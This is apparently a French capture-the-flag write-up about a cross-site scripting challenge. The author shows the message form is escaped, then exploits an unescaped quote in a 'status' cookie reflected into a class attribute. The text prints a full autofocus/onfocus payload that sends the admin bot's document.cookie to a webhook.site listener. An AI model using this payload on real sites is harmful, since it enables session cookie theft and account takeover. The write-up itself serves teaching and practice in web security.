




### 1. Test et Premier Échec (Le Formulaire)
Mon objectif est d'exécuter du JavaScript pour voler le cookie de l'administrateur. Je commence par tester le vecteur d'entrée le plus évident : le formulaire de message.

Test d'injection : J'injecte un payload classique dans le textarea du message :

```html


```
Résultat observé (Code Source) : Le serveur renvoie le code suivant :
```html

&lt;img src=x onerror=alert(1)&gt;
```
Conclusion : Le serveur applique une sanitisation (probablement via htmlspecialchars). Les caractères spéciaux < et > sont convertis en entités
``` html

(&lt; et &gt;)
```
Le navigateur affiche donc le code comme du texte au lieu de l'exécuter. Le formulaire est sécurisé.

### 2. Le Pivot : Découverte de la vulnérabilité (Cookie)
Je cherche alors d'autres points d'entrée (vecteurs) contrôlables par l'utilisateur. Je remarque que mon statut (rt ou invite) est affiché à côté de mon pseudo dans le code HTML :

```html

<i class="rt">status : rt</i>
```
En inspectant mes requêtes, je vois que cette valeur provient d'un Cookie nommé status.

Hypothèse : Si le serveur ne nettoie pas la valeur de ce cookie avant de l'insérer dans l'attribut class, je peux peut-être injecter du code.

Le Test du Pivot : Je modifie la valeur du cookie status avec la chaîne suivante pour tester les filtres :

```Plaintext

admin">
```
Résultat critique (Le "Diff") : 

Le serveur renvoie :

```html

<i class="admin"&gt;">...</i>
```
Le caractère > a été converti en
```html
 &gt; 
 ```
 
 (Impossible de fermer la balise <i> pour en ouvrir une nouvelle).

MAIS le guillemet " est resté intact (non échappé)

 Bien que je ne puisse pas créer de nouvelles balises (XSS classique bloquée), je peux sortir de l'attribut class en utilisant le guillemet et injecter de nouveaux attributs HTML (Injection d'attributs).


de mon cote j'ai tester
``` html
 <i class="rt" onmouseover="alert(1)">...</i>
```
pour voir deja si chez moi sa passe et sa passe.

Ma cible  (Bot Admin) : C'est un robot. Il charge la page sans interaction humaine (pas de souris, pas de clic).
Comme c'est un challenge disponible 24h/24, il n'y a pas un humain derrière. mais le robot vient pas souvent.

Problème : L'événement onmouseover ne se déclenchera jamais pour l'admin. Solution : Utiliser un vecteur "0-Click" qui s'auto-exécute au chargement.


###  faire attention entre ce que je voit et ce que le serveur renvoi

Le robot n'a pas de souris , donc il ne peut pas survoler les éléments.

onmouseover ne pourra pas etre declenche

Le bot est passé, a lu mon message, son navigateur a exécuté le onfocus, et il a envoyé son cookie ADMIN_COOKIE sur mon webhook.


# payload a mettre en value dans la session


```http
admin" tabindex="1" autofocus onfocus="new Image().src='https://webhook.site/c7af88d9-452c-4fb0-9a26-8375d347bb79?c='+document.cookie
```

webhook.site c'est mon listener

Ensuite quand on envoi un message sa met notre statut et ducoup si ladmin charge notre message on recupere son cookie de session

Détail du Payload :

" : Ferme l'attribut class du serveur.

tabindex="1" : 

Rend la balise
 ``` 
<i>
```
 "focusable" (sélectionnable).

autofocus : Force le navigateur à sélectionner cet élément dès l'ouverture de la page.

onfocus : Déclenche le script dès que l'élément est sélectionné.

new Image().src : Exfiltre le cookie discrètement sans rediriger la page (bruit réduit).

## Retour du listener





